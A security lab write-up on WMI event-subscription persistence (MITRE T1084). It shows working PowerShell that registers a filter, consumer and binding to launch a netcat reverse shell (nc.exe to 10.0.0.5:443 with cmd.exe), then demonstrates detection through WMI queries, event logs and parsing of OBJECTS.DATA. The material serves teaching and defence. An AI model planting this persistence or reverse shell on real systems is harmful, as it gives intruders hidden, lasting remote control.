








# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc.\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc.\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:


```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```


Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:


```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```


## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:



On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:


```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```


Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:



Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:


```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```





```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```




Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:



## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```



### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:



From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:



## References

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 











{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}





